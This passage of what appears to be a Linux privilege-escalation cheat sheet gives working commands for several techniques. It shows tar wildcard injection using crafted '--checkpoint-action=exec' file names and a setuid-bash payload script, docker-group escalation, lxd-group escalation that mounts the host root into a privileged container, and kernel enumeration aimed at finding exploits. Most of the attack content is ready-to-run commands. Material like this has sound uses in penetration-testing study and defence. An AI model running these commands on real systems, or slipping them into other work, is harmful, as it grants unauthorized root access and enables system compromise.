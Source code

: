   A straightforward example: create a file called '-la', then run 'ls *'. the file called -la is interpreted as an argument option for the ls command. Therefore, ls -la is what the system runs.

  A privesc example of this:
  ```bash
  #When you see this: 'tar cf archive.tar *':

  touch -- "--checkpoint=1"
  touch -- "--checkpoint-action=exec=sh shell.sh"
  echo "#\!/bin/bash\ncp /bin/bash /tmp/bash; chmod +s /tmp/bash" > shell.sh

  # Once the scirpt is executed, you will be able to run /tmp/bash -p to escalate to the user who owns the file.
  ```


  ### *Docker:* ###
  If the user is in the docker group, you can escalate with no special permissions:
    ```bash
    docker run -it --rm -v $PWD:/mnt bash
    ```


  ### *LXD Group Privesc:* ###
  If the user is in the lxd group, then you can escalate again with no special permissions:
  ```bash
  #Often the git cloning will be run on your machine and then the file transferred over.
  git clone https://github.com/saghul/lxd-alpine-builder
  ./build-alpine -a i686

  #The image would be transferred to the remote machine here.

  lxc image import ./alpine.tar.gz --alias myimage
  lxc init myimage mycontainer -c security.privileged=true

  # mount the /root into the image
  lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

  # interact
  lxc start mycontainer
  lxc exec mycontainer /bin/sh
  ```


  ### *KERNEL EXPLOITS:* ###
  ```bash
  #Show Kernel information:
  uname -a 
  cat /proc/version

  #Find the machines architecture (64 bit, 32 bit, number of CPUs)
  lscpu 
  ```
  The above will show you the kernel version you are running. It is now as striaghtforward as searching for exploits on exploitdb, or using searchsploit.
